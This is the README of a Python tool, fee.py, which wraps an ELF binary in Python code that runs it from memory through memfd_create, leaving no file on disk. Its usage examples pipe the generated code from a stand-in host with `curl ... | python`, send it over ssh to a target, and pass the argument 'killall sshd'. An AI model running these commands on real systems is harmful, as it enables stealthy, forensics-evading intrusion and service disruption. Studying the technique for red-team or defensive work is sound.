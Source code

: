 ## Execute ELF files on a machine without dropping an ELF

### Description

This Python script generates Python code which creates the supplied ELF as a file in memory and executes it (without tmpfs). This makes it possible to execute binaries without leaving traces on the disk.

The technique used for this is explained [here](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html).


### Target requirements

 * kernel: 3.17 (for `memfd_create` support)
 * Python: either 2 or 3

### Usage

Basic usage: supply the path to the binary you wish to drop:

```console
$ ./fee.py /path/to/binary > output.py
```

You can then pipe this into Python on the target:

```console
$ curl my.example.site/output.py | python
```

If you want to pipe over ssh, use the `--with-command` flag (`-c`) to wrap the output in `python -c`:

```console
$ ./fee.py -c /path/to/binary | ssh user@target
``` 

If you want to customise the arguments, use the `--argv` flag (`-a`):

```console
$ ./fee.py -a "killall sshd" ./busybox > output.py
```

__IMPORTANT!__ By default, the script uses the x86-64 syscall number for `memfd_create`. This is different for targets with a different architecture (32-bit x86, ARM, ARM64, MIPS, etc).

You need to search for `memfd_create` in your target's architecture's syscall table. This is located in various places in the Linux kernel sources. Just Googling `[architecture] syscall table` is perhaps the easiest.

If you need to change the syscall number, use the `--syscall` flag (`-s`).

Full help text:
```
usage: fee.py [-h] [-s NUM] [-a ARGV] [-c] [-p PYPATH] path

Print Python code to stdout to execute an ELF without dropping files.

positional arguments:
  path                  path to the ELF file

optional arguments:
  -h, --help            print this help message and exit
  -s NUM, --syscall NUM
                        syscall number for memfd_create for the target
                        platform (default: 319)
  -a ARGV, --argv ARGV  space-separated arguments (including argv[0]) supplied
                        to execle (default: path to file as argv[0])
  -c, --with-command    wrap the generated code in a call to Python, for
                        piping directly into ssh
  -p PYPATH, --python-path PYPATH
                        path to python on target if '-c' is used (default:
                        '/usr/bin/env python3')

```